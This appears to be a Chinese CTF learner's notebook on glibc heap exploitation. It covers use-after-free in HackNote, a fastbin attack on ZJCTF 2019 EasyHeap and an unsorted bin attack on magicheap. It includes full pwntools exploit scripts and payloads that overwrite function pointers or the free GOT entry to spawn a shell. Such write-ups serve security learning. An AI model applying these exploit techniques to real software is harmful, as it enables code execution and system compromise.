（上一世被丢进回收站一个月后被一堆乱码取代，这一世从堆开始，立誓要重塑前世荣光）


# canary

add函数:



Puts函数：


堆溢出，主要就是在这里修改topchunk


# 1.UAF

## 1.HackNote



菜单然后就是，查看各自的功能，于是在delete中发现


free后并没有进行指针清零，后面还有一个函数是print函数，于是这个时候在新建完两条笔记再次删除之后，

比如新建A B 之后删除 在bin里就会组成链表

B->A

这时如果再次新建笔记，就会从bin里面找出B之后，我们编辑的时候就可以修改里面的内容，就是相当于修改原来A里内容，改成后门函数之后，再次打印A这个时候就会触发后门函数。

模拟创建函数，模拟其中的函数实现流程

比如说就是创建add函数


选择fastbin的优点：



而0x80再加上头部之后就会超过fastbin的大小范围，就会进入unsortedebin，于是



所以只需要删除两个之后再次添加一个fastbin之后，就会指向A的fastbin这个时候再去修改函数就可以

str(size).encode();

输入的是0x80，这个时候str输出的是10进制之后.encode()把字符串转换成字节串



```python
from pwn import *

# ========== 环境设置 ==========
context(arch='i386', os='linux', log_level='debug')

# ========== 连接方式 ==========
# 本地调试
io = process('./hacknote')
# 远程打靶（替换成实际IP和端口）
# io = remote('ip', port)

# ========== 后门函数地址（从IDA获取） ==========
magic_addr = 0x804896b

# ========== 辅助函数 ==========
def add(size, content):
    """新建笔记：选1 → 输入size → 输入content"""
    io.sendlineafter(b'choice :', b'1')
    io.sendlineafter(b'size :', str(size).encode())
    io.sendafter(b'Content :', content)

def delete(index):
    """删除笔记：选2 → 输入index"""
    io.sendlineafter(b'choice :', b'2')
    io.sendlineafter(b'Index :', str(index).encode())

def show(index):
    """查看笔记：选3 → 输入index"""
    io.sendlineafter(b'choice :', b'3')
    io.sendlineafter(b'Index :', str(index).encode())

# ========== Step 1: 新建两条笔记 ==========
# content大小选0x80，让content进unsortedbin，不干扰fastbin[0]
add(0x80, b'aaaa')      # 笔记0: 结构体A(8B) + content_a(0x80B)
add(0x80, b'bbbb')      # 笔记1: 结构体B(8B) + content_b(0x80B)

# ========== Step 2: 删除两条笔记（触发UAF） ==========
# free后 notelist[0]还指向A，notelist[1]还指向B（没清空！）
# fastbin[0]: 结构体B → 结构体A → NULL（LIFO后进先出）
delete(0)
delete(1)

# ========== Step 3: 新建笔记2，覆盖笔记0的函数指针 ==========
# add_note内部两次malloc(8):
#   第1次malloc(8) → 从fastbin[0]拿 → 结构体B → 当笔记2的结构体
#   第2次malloc(8) → 从fastbin[0]拿 → 结构体A → 当笔记2的内容区！
# 往笔记2的内容区写magic_addr = 往结构体A写magic_addr
# = 覆盖笔记0结构体偏移0的函数指针！
add(8, p32(magic_addr))

# ========== Step 4: 查看笔记0，触发后门 ==========
# print_note(0):
#   1. 读notelist[0] → 指向A（没清空，还能找到）
#   2. 读A偏移0 → magic_addr（被我们覆盖了）
#   3. 跳转到magic_addr执行
#   4. magic() → system("/bin/sh") → getshell！
show(0)

# ========== 交互模式 ==========
io.interactive()
```

## 2.**[ZJCTF 2019]EasyHeap**


后门函数


菜单题



可是这里的delete函数在删完之后就将指针清零


## pw2

首先改一下看一下

libc库是就是函数库，而ld文件是来进行连接看调用哪个版本的函数库。






那么只需要给它配置一个2.23的就可以。

那么再来复习一下配置文件的步骤

查找对应版本，`list` 就是**纯文本清单文件**，保存所有可下载的 glibc 版本名字。

```shell
cat list
```

找到对应版本进行下载





```shell
patchelf --set-interpreter ./ld-2.23.so ./pwn
patchelf --add-needed ./libc-2.23.so ./pwn
```

接下来正式看题



菜单题，

add:


delete：



可以看到这里将指针清零了。


编辑：


堆溢出，嗯嗯原来这就是堆溢出

那么之后呢，不知道。哦，对了，还有一个shell函数

但是需要修改东西






首先就是创建一个堆块

之后再次创建一个堆块，使得释放之后进入fastbin之后

为什么必须是fastbin?

先回忆 fastbin 的核心行为（glibc‑2.23）：

1. fastbin 是**单向链表，只用 fd，没有 bk**。
2. free 进 fastbin 的时候**不做完整性检查**。
3. malloc 从 fastbin 取块的时候：**只校验 size 是否匹配 fastbin 下标，不校验这个 fd 指向的地址是不是真正堆内存**。

编辑chunk1之后堆溢出到chunk2的fd指针，使得这个指针停留在key指针附近，之后再次malloc的时候获取这个堆块就可以，编辑其附近的内容也就是key的内容，修改它的值，可以。

来呗，动调。

key的地址附近情况:




# EASY HEAP


首先还是菜单题



依旧是

creat a heap



在这里并没有什么

之后



atoi函数就是将输入的字符串转化成整数


所以说这里就是进行堆溢出

delete函数，指针清零，不存在uaf





后门函数

#### fastbin attack

fastbin检查：

也就是从fastbin取堆块的时候会检查其size字段，计算这个除以16再-2，看是否和这个档位相符。然后再取



如果申请0x60大小的堆块，之后分配0x70，之后修改size段为0x7f,之后就绕过检查



所以再填满chunk1之后再填满prev_size之后就到达size字段，和fd


edit函数把一开始写入的内容修改掉了



一开始创建的三个·0x60大小的堆块，

然后其fd存储的都是一开始存储的内容

接下来释放chunk2


此时chunk2已经进入fastbin链表，

之后修改chunk1，并且把字符串写入进去，修改chunk2的fd字段，和size字段


可以看到此时fastbin链表中已经有了我们想要的数组附近的地址

接下来申请fastbin链表中的堆块，



因为一开始把chunk2的fd指针改成0x6020ad ,之后malloc的时候就会返回+0x10的




所以说我们一开始申请的就是ad这里的值，之后因为+0x8之后正好是size字段，之后正好size字段是0x7f，满足从fastbin里面取堆块的条件，所以之后的content段就在bd，而接下来我们只需要填充chunk3,到达后面的指针数组，之后修改


修改chunk0的堆地址为free的got,之后




修改完成


这是里面的原始值，接下来修改为system函数地址


修改哦完之后


修改完成，之后只需要删除chunk0就可以，触发system



这里传入的是system函数的got,需要plt


```python
from pwn import *
context.log_level="debug"
io=process("./pwn")
#io=remote("node4.buuoj.cn",26646)
elf=ELF("./pwn")
#gdb.attach(io)
def add(size,content):
    io.recvuntil("choice :")
    io.sendline("1")
    io.recvuntil("Size of Heap : ")
    io.sendline(str(size))
    io.recvuntil("Content of heap:")
    io.send(content)


def edit(index,size,content):
    io.recvuntil("choice :")
    io.sendline("2")
    io.recvuntil("Index :")
    io.sendline(str(index))
    io.recvuntil("Size of Heap : ")
    io.sendline(str(size))
    io.recvuntil("Content of heap : ")
    io.send(content)

def delete(index):
    io.recvuntil("choice :")
    io.sendline("3")
    io.recvuntil("Index :")
    io.sendline(str(index))

add(0x60,"happy")
add(0x60,"happy")
add(0x60,"happy")

delete(2)

pay1=b'/bin/sh\x00'+b'a'*0x60+p64(0x71)+p64(0x6020ad)
edit(1,len(pay1),pay1)

add(0x60,"aaaa")
add(0x60,"bbbb")
pay2=b'a'*0x23+p64(elf.got["free"])
edit(3,len(pay2),pay2)
pay3=p64(elf.plt["system"])
edit(0,len(pay3),pay3)
delete(1)
io.interactive()

```

# **hitcontraining_magicheap**

找的一道unsoretdbin攻击的题目



检查保护，虽然现在还不知道堆题检查保护有什么用



主要函数


后门函数，只需要将


所以先依靠前面的漏洞点修改magic的值，之后再次4869就可以



creat函数


edit函数


delete函数

只是看到没有uaf，指针被清零

倒是觉得edit函数存在堆溢出

倒是可以连续申请，释放一个，之后堆溢出修改bk指针，为magic-0x10

之后magic的值就会变成libc地址，总之应该比要求的要大。



magic 地址

0x6020a0



首先创建的两个chunk,其中一个满足fastbin，另一个满足unsortedbin

接下来删除第二个



并没有找到

因为chunk1和top chunk合并



加上第3个堆块之后，就有可以看到

此时的fd和bk已经指向了main_area



接下来编辑chunk0来进行，修改unsortedbin中的bk指针为magic-0x10


可以看到此时里面没有值

溢出过程：

第一次;


bk指针已经修改为0x602090

接下来应该是再次申请一次，就可以修改magic的值了


gdb开启失败，应该是伪造的相关问题

pay=b'a'*0x38+p64(magic-0x10)

这个只是将chunk0的数据区覆盖，之后跳过size,跳过fd，直接到达bk并修改，哪有那么容易，虽然确实修改了


当时确实报错了

再次修改

pay=b'a'*0x20+p64(0)+p64(0x91)+p64(0)+p64(magic-0x10)

修改完之后的


